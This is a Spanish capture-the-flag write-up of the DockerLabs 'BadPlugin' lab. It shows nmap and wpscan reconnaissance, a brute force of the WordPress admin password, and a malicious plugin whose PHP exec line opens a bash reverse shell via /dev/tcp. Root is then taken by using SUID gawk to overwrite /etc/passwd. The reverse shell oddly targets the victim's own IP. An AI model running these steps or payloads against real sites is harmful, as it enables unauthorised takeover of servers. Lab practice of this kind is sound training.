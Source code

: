 #MAQUINA #DOCKERLABS #MEDIO 
#WORDPRESS #WPSCAN 
<hr>

# RECONOCIMIENTO

Vamos a resolver **BadPlugin** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 192.168.1.100


```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 192.168.1.100
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 10:35 CET
Initiating ARP Ping Scan at 10:35
Scanning 192.168.1.100 [1 port]
Completed ARP Ping Scan at 10:35, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:35
Scanning 192.168.1.100 [65535 ports]
Discovered open port 80/tcp on 192.168.1.100
Completed SYN Stealth Scan at 10:35, 0.56s elapsed (65535 total ports)
Nmap scan report for 192.168.1.100
Host is up, received arp-response (0.0000040s latency).
Scanned at 2025-03-20 10:35:55 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:C0:A8:01:64 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.73 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 192.168.1.100                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 10:36 CET
Nmap scan report for 192.168.1.100
Host is up (0.000022s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Error Message
MAC Address: 02:42:C0:A8:01:64 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.40 seconds




```

   ```bash

nmap --script="http-enum" 192.168.1.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 10:37 CET
Nmap scan report for 192.168.1.100
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /info.php: Possible information file
|   /phpmyadmin/: phpMyAdmin
|_  /wordpress/wp-login.php: Wordpress login page.
MAC Address: 02:42:C0:A8:01:64 (Unknown)

whatweb "http://192.168.1.100/wordpress/"
http://192.168.1.100/wordpress/ [301 Moved Permanently] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[192.168.1.100], RedirectLocation[http://escolares.dl/wordpress/], UncommonHeaders[x-redirect-by]
http://escolares.dl/wordpress/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[192.168.1.100], JQuery[3.7.1], MetaGenerator[Elementor 3.26.3; features: e_font_icon_svg, additional_custom_breakpoints, e_element_cache; settings: css_print_method-external, google_font-enabled, font_display-swap,WordPress 6.7.1], Script[text/javascript], Title[badplugin], UncommonHeaders[link], WordPress[6.7.1]

                                                            


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Tenemos un  **WP**.

## HTTP (80)

Usamos **wpscan** :

```bash
wpscan --url "http://escolares.dl/wordpress/" --enumerate u,p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Plugin(s) Identified:

[+] astra-sites
 | Location: http://escolares.dl/wordpress/wp-content/plugins/astra-sites/
 | Last Updated: 2025-02-10T06:39:00.000Z
 | [!] The version is out of date, the latest version is 4.4.12
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Urls In 404 Page (Passive Detection)
 |
 | Version: 4.4.10 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://escolares.dl/wordpress/wp-content/plugins/astra-sites/readme.txt

[+] elementor
 | Location: http://escolares.dl/wordpress/wp-content/plugins/elementor/
 | Last Updated: 2025-02-16T12:20:00.000Z
 | [!] The version is out of date, the latest version is 3.27.5
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.26.3 (100% confidence)
 | Found By: Query Parameter (Passive Detection)
 |  - http://escolares.dl/wordpress/wp-content/plugins/elementor/assets/css/frontend.min.css?ver=3.26.3
 |  - http://escolares.dl/wordpress/wp-content/plugins/elementor/assets/js/frontend.min.js?ver=3.26.3
 | Confirmed By:
 |  Readme - Stable Tag (Aggressive Detection)
 |   - http://escolares.dl/wordpress/wp-content/plugins/elementor/readme.txt
 |  Readme - ChangeLog Section (Aggressive Detection)
 |   - http://escolares.dl/wordpress/wp-content/plugins/elementor/readme.txt
[i] User(s) Identified:

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://escolares.dl/wordpress/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Oembed API - Author URL (Aggressive Detection)
 |   - http://escolares.dl/wordpress/wp-json/oembed/1.0/embed?url=http://escolares.dl/wordpress/&format=json
 |  Author Sitemap (Aggressive Detection)
 |   - http://escolares.dl/wordpress/wp-sitemap-users-1.xml
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)

```


 Vamos a sacar la contra de admin :
 
```bash
wpscan --url "http://escolares.dl/wordpress/" -U admin -P /usr/share/wordlists/rockyou.txt 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[!] Valid Combinations Found:
 | Username: admin, Password: rockyou

```

# EXPLOTACION

Nos vamos a plugins y subimos y activamos un plugin. Vamos a subir un zip que nos otorgue una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**).
Contenido del zip, un php con:

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.1.100/443 0>&1'");

?>

```

YA ESTAMOS COMO WWW-DATA.
# ESCALADA PRIVILEGIOS

Vemos archivos con permisos SUID:

```bash
www-data@69dcc831be30:/$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/gawk
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper

```

Tenemos **gawk**: 

```bash
www-data@69dcc831be30:/tmp$ gawk -v LFILE=/etc/passwd 'BEGIN{ print "root::0:0:root:/root:/bin/bash"  > LFILE}'
www-data@69dcc831be30:/tmp$ cat /etc/passwd
root::0:0:root:/root:/bin/bash
www-data@69dcc831be30:/tmp$ su root
root@69dcc831be30:/tmp# whoami
root
root@69dcc831be30:/tmp# 

```

**YA ESTAMOS COMO ROOT.**

